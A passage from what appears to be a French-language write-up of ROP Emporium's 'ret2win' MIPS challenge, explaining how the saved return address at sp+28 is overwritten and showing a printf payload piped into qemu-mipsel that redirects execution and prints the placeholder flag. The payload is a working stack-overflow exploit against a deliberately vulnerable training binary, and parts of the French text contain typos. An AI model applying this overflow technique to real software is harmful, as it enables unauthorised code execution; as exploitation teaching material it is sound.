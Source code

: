 On saute la sauvegarde de `ra` en `sp+28`.

Et a la fin :

    0x00400a5c <+92>:	lw	ra,28(sp)

on va restorer da ra la valeur présente en sp+28. El fera peut planter le programme mais pas boucler.

### Execution

    mipsel/ret2win$ printf "%36s\x08\x0a\x40\x00" A |qemu-mipsel   ret2win_mipsel
    ret2win by ROP Emporium
    MIPS

    For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
    What could possibly go wrong?
    You there, may I have your input please? And don't worry about null bytes, we're using read()!

    > Thank you!
    Well done! Here's your flag:
    ROPE{a_placeholder_32byte_flag!}


